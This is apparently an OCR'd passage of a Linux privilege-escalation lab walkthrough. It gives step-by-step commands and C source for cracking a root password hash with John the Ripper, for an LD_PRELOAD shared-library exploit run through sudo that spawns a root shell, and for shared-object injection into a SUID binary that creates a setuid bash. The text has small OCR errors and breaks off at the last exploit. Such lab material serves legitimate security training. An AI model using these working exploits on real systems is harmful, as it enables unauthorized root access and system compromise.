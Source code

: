 Attacker VM

1. Open command prompt and type:
echo '[Pasted Root Hash]' > hash.txt
2. In command prompt type:
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt
3. From the output, notice the cracked credentials.

######################################################################
(LD_PRELOAD)

type: sudo -l

1. Open a text editor and type:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

2. Save the file as x.c
3. In command prompt type:
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
4. In command prompt type:
sudo LD_PRELOAD=/tmp/x.so apache2
5. In command prompt type: id

######################################################################
(Shared Object Injection)

ype: find / -type f -perm -04000 -ls 2>/dev/null
note the SUID binaries.
3. In command line type:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
4. From the output, notice that a .so file is missing from a writable directory.

Exploitation

Linux VM

5. In command prompt type: mkdir /home/user/.config
6. In command prompt type: cd /home/user/.config
7. Open a text editor and type:

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
